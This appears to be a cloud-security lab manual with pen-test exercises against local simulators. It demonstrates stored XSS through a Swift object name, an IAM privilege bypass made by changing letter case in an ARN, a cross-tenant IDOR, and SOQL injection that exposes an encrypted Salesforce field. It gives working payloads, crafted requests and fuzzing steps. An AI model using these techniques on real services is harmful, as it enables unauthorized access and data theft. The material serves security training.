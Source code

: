 # Exercises

A walkthrough of some sample exercises is provided next. Each respective cloud API simulator also contains additional exercises for you to explore outside of this content.

Each exercise assumes that you have already setup the simulator servers and the respective client tools.

---

<details>
<summary>Cross-site Scripting with REST APIs</summary>

![image](xss-exercise-sample-screenshot.png)

From a web browser (connected with your HTTP MitM Proxy, Burp) navigate to:
> `http://localhost:9080/REST/API/endpoint.cgi`
- If you are using Firefox and your requests are not showing up in Burp try a URL like `http://localtest.me:9080/REST/API/endpoint.cgi`

Observe that the page renders a listing of files stored in a backend OpenStack Swift (Object Storage). In the first release for customers they could use the upload functionality of this page to upload files to the server for storage.

Observe that if you attempt to upload a file with a filename that does not comply to the restrictions that you are blocked. Feel free to try repeating a few malicious payloads via Burp in an attempt to inject XSS on the list page. During the first pen test the service was not found vulnerable to XSS.

##### Customer Version 2
Months later customers demanded a way to more easily bulk upload millions of their data files. The application was updated to allow customers to use the OpenStack cloud REST APIs to perform bulk uploads via the Swift service.

Our subsequent pen test will uncover that an attacker can bypass the filename character input validation and cause XSS to be exploited on the application.

### Useful concepts

1. The Swift CLI for the OpenStack SDK and REST API
   - https://docs.openstack.org/ocata/cli-reference/swift.html
1. Observe: Object Storage != Filesystem Storage nor the same limitations
   - https://docs.openstack.org/api-ref/object-store/index.html#objects
   - https://docs.openstack.org/swift/latest/api/object_api_v1_overview.html

### Baseline Start (QA)

We start by only performing legitimate, expected behaviors (i.e. inputs) of the functionality. This tells us if the service we are testing actually works as well as what a valid request looks like.

```shell
echo $USER > sample_object.txt

swift --insecure -A https://localhost:8888/auth/v1.0 -U system:root -K testpass upload fileuploads ./sample_object.txt

swift --insecure -A https://localhost:8888/auth/v1.0 -U system:root -K testpass upload fileuploads /etc/os-release
```

Observe on the application website (GUI) that the file uploads now appear.

You can also observe the traffic in your HTTP MitM proxy (Burp). You will noticed that there are two calls. One to authenticate with the client credentials and obtain a token. Another to perform the actual upload. In this case we are not attacking the authentication or authorization but instead already have credentials.

### Malicious Input Injection

We observed previously that uploading files via the web browser (HTML/HTTP form upload) resulted in strict validation of the permitted filenames. Is that the case with the standard SDK of the OpenStack REST API?

```shell
swift --insecure -A https://localhost:8888/auth/v1.0 -U system:root -K testpass copy fileuploads sample_object.txt -d '/fileuploads/easytest<script>alert("you been pwned")</script>forme'
```

Now observe the web UI result. You should see a simple (persistent) XSS payload execute.

Object Storage in the cloud is not strictly file storage. The key name of the object can be a wide range of byte sequences and not strictly characters.

ℹ️ In this example we used an API to copy an item already in the object storage but with a new key name. You could have also uploaded another file with a malicious name. The lesson is that you want to look for multiple possible API calls that were not considered by the application developers to cause unexpected behavior.
</details>

---

<details>
<summary>Authorization Bypass - Privilege Escalation</summary>

### Useful concepts

- Exercise scenario details
  - https://github.com/Coalfire-Research/cazt/blob/main/documentation/lab_manual/scenarios/07-impersonation.md

Identity and access management (IAM) controls include policies that define permissions for the caller of the expected actions (APIs) and resources (IDs). These permissions can allow things or deny things based on a variety of conditional states.

A configuration mistake in a policy by the client/customer/tenant can result in unauthorized access to data or the ability to use the service in unwanted ways. This typically falls on the customer-shared responsiblity.

However, the cloud (or service) provider must also ensure that their systems correctly interpret both the policy documents and how it is applied to the user inputs. Failure to do so could result in unauthorized access to the tenant's data or privilege escalation.

### Baseline Start (QA)

From a terminal (connected to your proxy) run the following baseline (QA) command to verify that the service's API is working as expected:

```shell
gcloud cazt pet-sitter \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen7_impersonation@000000001111 \
    --format json \
    --arn=arn:cloud:iam:us-texas-9:000000001111:CareForPets
```

You'll observe a success response from the service. This is because the psuedo-policy allows access to CareForPets. Reference https://github.com/Coalfire-Research/cazt/blob/main/trainee/iam_policies/cazt_scen7_impersonation.json

### Malicious Input Injection

The goal is to bypass the IAM policy through a flaw in the cloud vendor's (responsibility) system to achieve FullAdmin access.

Attempt the following API REST call:

```shell
gcloud cazt pet-sitter \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen7_impersonation@000000001111 \
    --format json \
    --arn=arn:cloud:iam:us-texas-9:000000001111:FullAdmin
```

Note:
1. You must not change the `--account` value
   1. The attack is against authori**z**ation, not the authentication
   1. The attacker has only their own credentials, not anothers
   1. Do not change the HTTP authentication header either
1. Verify that the request is visible in your HTTP MitM proxy (i.e. Burp)
1. The response should indicate that your request to the API was denied

##### Goal

The goal is to get a success response like the following:
```json
{
  "Message": "000000001111 using impersonation arn:cloud:iam:us-texas-9:000000001111:FullAdmin"
}
```

##### Attack Methodologies

1. Identify the input to attack
   - In this case "arn"
1. Attempt fuzzing of the input value
   - Encode some characters with URL character encoding escapes
   - Try adding extra spaces at the beginning or end
   - Duplicate the key+value in the JSON
   - Change the value from a single string to an array of values
     - One with the legit value CareForPets, the other FullAdmin
     - Which value is used for authorization versus the business logic?
   - Are the key names or values case sensitive?

##### Solution

Changing the case of the input value:

```http
POST /uat/petSitter HTTP/1.1
Host: cazt.gcloud.localtest.me:8443
user-agent: google-cloud-sdk gcloud/538.0.0 command/gcloud.cazt.pet-sitter invocation-id/9b7b5138daed4bf0a60c164e9d7cf11b environment/None environment-version/None client-os/LINUX client-os-ver/6.6.87 client-pltf-arch/x86_64 interactive/True from-script/False python/3.12.10 term/xterm-256color (Linux 6.6.87.2-microsoft-standard-WSL2)
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Authorization: Bearer Y2F6dF9zY2VuN19pbXBlcnNvbmF0aW9uQDAwMDAwMDAwMTExMQ==
Content-Length: 58
Content-Type: application/json

{"Arn": "arn:cloud:iam:us-Texas-9:000000001111:FullAdmin"}
```

```http
HTTP/1.1 200 OK
Server: BaseHTTP/0.6 Python/3.12.3
Date: Sat, 13 Sep 2025 17:20:20 GMT
Content-Type: application/json
Content-Length: 102

{
     "Message": "000000001111 using impersonation arn:cloud:iam:us-texas-9:000000001111:FullAdmin"
}
```

In this case the software bug in the API was that the policy authorization rules were applied with case sensitivity in parts that were case insensitive.

</details>

---

<details>
<summary>Authorization Bypass - IDOR / Confused Deputy</summary>

### Useful concepts

- Exercise scenario details
  - https://github.com/Coalfire-Research/cazt/blob/main/documentation/lab_manual/scenarios/02-cross_tenant.md

Identity and access management (IAM) controls include policies that define permissions defined by the customer/client/tenant owner. An expectation is that only the permissions the tenant chose to grant would permit access to their account data or resources.

The cloud (or service) provider must also ensure that their systems correctly interpret both the policy documents, the inputs coming into an API, and whether the caller (tenant) was granted access. This applies for whether the caller is a member of the same tenant account or belongs to another tenant account.

### Baseline Start (QA)

From a terminal (connected to your proxy) run the following baseline (QA) command to verify that the service's API is working as expected:

```shell
gcloud cazt get \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen2_cross-tenant@123456789012 \
    --format json \
    --name=NotMyMoggy
```

For cloud APIs you will either observe an unauthorized response or a response that the item was not found (because it looked in your own account which did not have it). In this case we notice that NotMyMoggy was created in the tenant account `000000002222` but the caller's credentials are only for account `123456789012`.

ℹ️ If you need to reset the sample data see [CAZT - Populate sample data](configuration.md#populate-sample-data)

### Malicious Input Injection

In your HTTP MitM proxy (Burp) review your previous get API call.

Note:
1. You must not change the `--account` value
   1. The attack is against authori**z**ation, not the authentication
   1. The attacker has only their own credentials, not anothers
   1. Do not change the HTTP authentication header either

You will see in a psuedo-IAM policy that it uses a resource identifier that is longer than just a short id. The long-form of a resource ID looks like `arn:cloud:cazt:REGION:ACCOUNTID:SomeResourceNameOnly` or `//iam.googleapis.com/projects/PROJECT_ID/serviceAccounts/SERVICE_ACCOUNT_EMAIL` or `/subscriptions/xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx/resourceGroups/myResourceGroup/providers/Microsoft.Compute/virtualMachines/myVM` (it varies by the cloud provider).

##### Goal

The end goal is to call the GetMoggy API from the attacker's  `--account=cazt_scen2_cross-tenant@123456789012` to get the resource that belongs to the victim in account `000000002222`.

```json
{
  "ActivityLogObjectStorage": "moggylitterbox-000000002222",
  "CreatedAt": 1751213493,
  "Description": null,
  "Name": "NotMyMoggy"
}
```

##### Attack Methodologies

1. You may assume that the attacker has knowledge of any API resource nomenclature (ARNs) or resource names belonging to the target victim.
   1. IDs are not secrets nor should knowledge of the ID be the only access control
1. The attacker would configure their own tenant account calling user with administrator (or * wildcard) permissions
   1. The attacker does not have any permissions granted by the target victim
   1. The attacker does control their own account so they would grant themselves (in their own tenant account) full admin
   1. This ensure that if the cloud service checks the caller's permissions to the API action only (but not the target resource input) it would not be blocked prematurely
1. Identify the input to attack
   - In this case "name"
1. Attempt fuzzing of the input value
   - Encode some characters with URL character encoding escapes
   - Try adding extra spaces at the beginning or end
   - Duplicate the key+value in the JSON
   - Change the value from a single string to an array of values
     - Which value is used for authorization versus the business logic?
   - Are the key names or values case sensitive?
1. Are there alternative aliases or conventions for defining the identifier?
   - MyShortID
   - arn:cloud:cazt:REGION:ACCOUNTID:MyShortID

##### Solution

```http
TODO add example
```

```http
TODO add example
```

In this case the API software bug was that it assumed only the short-form which it resolved as a relative alias to the full-length identifier. When supplied with an already resolved identifier it did not perform any resolution against the caller's account ID but just trusted the value given.

</details>

---

<details>
<summary>Encrypted Field Data Access Bypass - SOQL Injection</summary>

### Prerequisites

- Install Setup
  - https://github.com/Coalfire-Research/paas-cloud-goat
- You should be logged in using the standard user profile role
- Your web browser should already be connected to your HTTP MitM proxy (Burp)
- The PaaS Cloud Goat applciation has helpful documentation in the lab exercise pages as well

### Baseline Start (QA)

In the PaaS Cloud Goat "welcome" tab navigate to the "Encrypted Field" page

1. The cloud vendor manages the encryption and keys for the encrypted field feature
1. You will observe that the masked values of the encrypted fields correspond to the exact length of the clear-text data
   1. Think of the feature more as an ACL restriction
   1. By default even your Salesforce org administrator does not get access to encrypted fields
   1. There is a checkbox in the Salesforce configuration for granting access to view the data
      - However, this exercise will demo how to bypass the control without a customer misconfiguration
1. Observe on this screen that a Salesforce API change corrected a common developer mistake
   1. The API used to have a clear-text viewing method that was commonly misused and exposed the data
   2. Now the data appears masked regardless

### Malicious Input Injection

Navigate to the page "SOQL Injection - Variant 3" which will simulate a SOQL vulnerability in the application. Execute the default query and observe the request + response in your HTTP MitM proxy (Burp).

```
POST /apex/SOQLInjection3?isdtp=p1&sfdcIFrameOrigin=https://na-personal-dev-ed.develop.lightning.force.com HTTP/2
Host: na-personal-dev-ed--c.develop.vf.force.com
Cookie: ...REDACTED...
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: ...REDACTED...
Content-Type: application/x-www-form-urlencoded
Content-Length: 8103
Origin: https://na-personal-dev-ed--c.develop.vf.force.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4
Te: trailers

...REDACTED...
j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39=j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id43=SELECT+id%2Cownerid%2Cisdeleted%2Cname%2Ccreateddate%2Ccreatedbyid%2Clastmodifieddate%2Clastmodifiedbyid%2Csystemmodstamp%2Clastvieweddate%2Clastreferenceddate%2Centrypin__c+FROM+Building__c&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id45=Submit&com.salesforce.visualforce.ViewState=...REDACTED...000&com.salesforce.visualforce.ViewStateMAC=AG...REDACTED...%3D&com.salesforce.visualforce.ViewStateCSRF=VmpFPSxNakF5TlMwd09TMHhObFF4TlRvd01qb3dOQzR4TkRaYSxiRmw2U0pWVkFYMXlmZFNLYW5GQ1liSk9jWVZaVXZmOTZ5WVpIYnBNWC1JPSxNVFppTUdNeA%3D%3D
...REDACTED...
```

```
HTTP/2 200 OK
Date: Sat, 13 Sep 2025 15:02:22 GMT
Content-Type: text/html;charset=UTF-8
...REDACTED...

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html lang="en-US"><head><script src="/static/111213/js/perf/stub.js" type="text/javascript"></script><script type="text/javascript">window.Sfdc = window.Sfdc || {};
...REDACTED...
        <h2>Resulting Output</h2>

        <p>
            <pre>[Building__c (Id:a00aj000010xZfbAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Vault, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:42)]
[Building__c (Id:a00aj000010xZfcAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Satellite, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:71478)]
[Building__c (Id:a00aj000010xZfdAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:HQ, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:123123)]
[Building__c (Id:a00aj000010xZfeAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Bunker, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:71927)]</pre>
        </p></div><div class="pbFooter secondaryPalette"><div class="bg"></div></div></div></div><script type="text/javascript">Sfdc.onReady(function(){
	SfdcApp && SfdcApp.Visualforce && SfdcApp.Visualforce.VSManager && SfdcApp.Visualforce.VSManager.vfPrepareForms(["j_id0:j_id35:j_id36:j_id37:j_id39"]);
...REDACTED...
```

The part of the request that you are interested in is the `&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id43`. The input parameter name and path were assembled by the service framework for the developer. If you look at the Apex API controller itself it uses more friendly names such as `query`. If you know the Apex controller APIs parameter names you could use those as well:

```
query=SELECT+id%2Cownerid%2Cisdeleted%2Cname%2Ccreateddate%2Ccreatedbyid%2Clastmodifieddate%2Clastmodifiedbyid%2Csystemmodstamp%2Clastvieweddate%2Clastreferenceddate%2Centrypin__c+FROM+Building__c&querySOQL=Submit
```

Note that you must keep the session identifiers such as:
- com.salesforce.visualforce.ViewState
- com.salesforce.visualforce.ViewStateVersion
- com.salesforce.visualforce.ViewStateMAC
- com.salesforce.visualforce.ViewStateCSRF

##### Goal

The end goal is to retrieve the clear-text values of the encrypted fields.

##### Attack Methodologies

Modify the injectable SOQL query for the API /apex/SOQLInjection3.

We are interested in obtaining the encrypted field Ingredient from the `Secret Sauce` object. Since these are custom objects in Salesforce they will require appending `__c` to get their data schema names.

Take our original, unencoded query that retrieved information about buildings:
```sql
SELECT id,ownerid,isdeleted,name,createddate,createdbyid,lastmodifieddate,lastmodifiedbyid,systemmodstamp,lastvieweddate,lastreferenceddate,entrypin__c FROM Building__c
```

To validate if we've guessed or used the correct object schema name we use well known global attributes:

```sql
SELECT id FROM SecretSauce__c
```

Re-encode the query and submit it to the service. If you get results you know you have a valid query. Otherwise you may get an error page or an empty page.

##### Solution

Continuing with guessing the target schema attribute names we arrive at:

```sql
SELECT id,name,SecretIngredient__c FROM SecretSauce__c
```

We observe that even though the user did not have permission to the encrypted field the injection vulnerability allowed us to access the clear-text data.

</details>
